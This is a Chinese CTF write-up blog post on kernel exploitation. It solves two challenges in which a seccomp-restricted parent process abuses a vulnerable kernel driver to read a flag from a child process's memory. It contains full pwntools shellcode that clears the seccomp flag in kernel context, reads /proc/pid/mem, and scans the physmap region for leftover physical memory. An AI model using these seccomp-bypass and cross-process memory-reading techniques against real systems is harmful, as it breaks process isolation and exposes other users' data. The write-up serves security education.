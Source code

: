 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 3: 利用内核漏洞获取其他进程信息"
author: wsxk
date: 2025-10-10
comments: true
---
```


- [1. 前言](#1-前言)
- [2. 子进程存储flag](#2-子进程存储flag)
  - [2.1 解题思路](#21-解题思路)
- [3. 子进程存储flag后退出——physmap](#3-子进程存储flag后退出physmap)
  - [3.1 解题思路](#31-解题思路)


# 1. 前言<br>
遇到了某种特定类型的CTF题目，大意是说，我们只能和父进程交互，但是flag被保留在子进程的内存当中（没有其他地方留存），父进程能够与内核驱动交互。题目的本意是让我们通过驱动的漏洞，让父进程能够偷取子进程的信息，打破进程隔离。<br>
我感觉十分的牛逼，故单开一章用于讲述实际实现和解法。<br>

# 2. 子进程存储flag<br>
代码逻辑如下图所示:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123352.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123312.png)
总的来说，父进程创建子进程读取flag文件的内容后，并删除flag文件本身。
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133555.png)
随后父进程开启seccomp，只允许write执行，并允许我们输入shellcode<br>
有问题的驱动程序代码如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133635.png)

## 2.1 解题思路<br>
1. 首先还是利用内核漏洞，解除`seccomp`机制。<br>
2. 随后，确定子进程的pid后，用`open`函数打开`/proc/pid/mem`。
3. `fseek`文件描述符到`0x404040`（flag的存放位置处）
4. `read`函数读取flag内容并打印

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

escape_seccomp_shellcode = """
mov    rax,QWORD PTR gs:0x15d00
and    QWORD PTR [rax],0xfffffffffffffeff
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3   /*目标程序打开的驱动文件描述符*/
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall 

/*open file*/
mov rax, SYS_open
lea rdi, [rip+file_name]
mov rsi, O_RDONLY
mov rdx, 511
syscall

/*fseek*/
mov rdi, rax
mov rsi, 0x404040 /*flag存放的虚拟地址*/
mov rdx, SEEK_SET
mov rax, SYS_lseek
syscall

/*fread*/
lea rsi, [rip+buffer]
mov rdx,0x200
mov rax, SYS_read
syscall

/*fwrite*/
mov rdi, 1 #out_fd
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_write
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}

.align 8
file_name:
.string "/proc/166/mem"
.align 8
buffer:
.space 0x200
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


# 3. 子进程存储flag后退出——physmap<br>
这道题跟#2的题目非常类似，唯一有区别的点在于:**子进程在加载flag后，没有一直循环等待，而是直接退出**<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251010213236.png)
这道题利用到的是linux内核中的`physmap`机制。<br>
**`physmap`的核心是：内核空间维护了一段虚拟地址，以ffff888000000000起始，这个地址与机器实际拥有的物理地址空间是一一映射关系。也就是说，如果你直接通过这段地址中读取内容，等于直接从物理内存里读内容**<br>
这里又涉及到另一点，进程销毁后，其内容还保留在物理内存当中；此时你如果不做其他的申请内存的操作，那么内容所处的空间就不会被占用，继而一直存在！<br>


## 3.1 解题思路<br>
这道题目flag还是存储在`0x404040`地址处，即某个page的0x40位置。<br>
尝试遍历内核地址空间的`physmap`区域每个page的0x40地址开头的值是否是`pwn`，是的话将其打印出来即可。<br>
```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
print(hex(u64(b"college{")))

escape_seccomp_shellcode = """
mov rsi, 0x7b6567656c6c6f63  /*special flag*/
/*traverse the addr*/
mov rax, 0xffff888000000044
loop:
mov rdi, [rax]
cmp rdi, rsi
je end
add rax, 0x1000
jmp loop
end:
mov rdi, rax
mov rbx, 0xffffffff810b69a9 /*printk addr*/
call rbx
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>